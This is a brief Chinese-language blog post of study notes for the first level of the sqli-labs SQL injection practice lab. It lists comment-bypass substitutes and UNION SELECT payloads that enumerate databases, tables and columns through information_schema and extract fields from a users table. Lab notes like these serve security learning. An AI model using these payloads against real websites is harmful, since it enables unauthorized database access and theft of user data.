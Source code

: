 ```yaml
---
layout: "post"
title: "sqls-lib笔记"
date: "2019-05-11 10:50"
---
```


## less 1

* 末尾#号可用  --+ -- %23代替

* 查所有数据库
**select group_concat(distinct TABLE_SCHEMA) from information_schema.tables;**

* 查询任意库的表
**union select group_concat(table_name) from information_schema.tables where table_schema=database()**

* 查询字段
**union select group_concat(column_name) from information_schema.columns where table_name='users'**

* 获取信息
**union select 字段 from table**
